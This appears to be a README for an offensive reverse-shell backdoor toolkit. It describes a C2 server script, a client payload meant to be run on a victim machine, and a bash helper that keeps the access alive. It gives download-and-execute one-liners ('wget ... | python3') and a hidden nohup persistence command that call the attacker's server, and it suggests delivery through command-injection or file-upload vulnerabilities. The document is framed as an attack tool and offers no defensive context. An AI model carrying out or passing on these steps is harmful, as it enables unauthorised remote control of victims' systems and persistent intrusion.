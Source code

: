 # Files in question

__server_shell.py__ [CNC - Command and Control script]
- => Runs on the server system.
- This file is to be ran on the CNC server system and listens for incoming connections made by an exploited machine via the client_payload script.
- Once a connected is established - this acts as a reverse shell and executes commands on the client system.

__client_payload.py__ [Reverse shell Backdoor]
- => Runs on the client syste,.
- This file initiates a connection from the host system to the CNC server machine (hacker machine).
- This is intended to be downloaded/executed on a victim machine.
- This file assumes python3 is installed.

__client_connect.sh__ [Client Helper script - BASH]
- => Runs on the client system.
- This file is a helper to the client_payload script.
- The goal here is to make sure if a connection is dropped - a new one will be re-initiated - allowing the CNC server to have realiable access to client machine.
- Write this as bash script so most of the commands here are directly communicating at the command line level.

___startup.sh__ [Helper script - BASH]
- => To run on server system
- Prints on screen-instructions asking for the ip/port details of the CMC server (hacker machine) and where the client_payload is to be hosted. 
- This scrpt also edits the client_payload.py, server_shell.py, and client_connect.sh to reflected the command line input.
- Finally, this script tells you exactly which commands to run on CNC server and client machine to initiate a reverse shell (backdoor) attack. 

# Usage

Note: With all methods - there needs to be a way to run a command on the client machine to kick-off the connection to the CNC server (hacker's machine).
There is more than one way to do this - but would be good to find a straight-forward vulnerability such a a command line injection if possible.

## Method 1: Startup Script [PREFERRED]

### On Hacking machine (CNC Server)
Run startup script
`bash startup.sh`

Then follow on screen instructions.


## Method 2: Manual
(works with cmd line injection)

- [SERVER] Host client_payload.py somehere
- - One option is to start a python web server on the cnc_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <cnc_server_ip>:8080/client_payload.py | python3`
- [OPTIONAL] Once you have a connection to client from cnc server...
- - Download + Execute the client_connect.sh script (keeps reconnects the client if it disconnects)
- - CNC server could host the client_connect.sh script.
- - - This file must first be edited to match the host/port details you already have in use.
- - - `wget -q <cnc_server_ip>:8080/client_connect.sh &> /dev/null ;` 
- - - `bash client_connect.sh &> /dev/null & `
- - One-Liner
- - - `{ wget -q -O .c <cnc_server_ip>:8080/client_connect.sh ; } && { nohup bash .c &> /dev/null & }`
- - Make sure you exit from CNC server with 'exit' to disconnect properly.



## Method 3: Direct Client Access

- [SERVER] `python3 server_shell.py` <- edit the file to use the port you want or pass it in as an argument (default 8000). 
- [CLIENT] `python3 client_payload.py`<- edit the file to use the CNC server IP and port you want. 
- - Or pass them in as an argumenta (default port 8000)
- - `python3 client_payload.py <cnc_server_ip> <cnc_server_port>`


# Other ways to get client_payload.py on victim machine
You could also exploit a file upload vulnerability of aa web application and upload the client_payload file onto the victim's machine.
Just make sure you listen on sever and manage a way to run the client_payload.py script on the client machine.


### Port as an optional argument
Both client_payload and server_shell scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

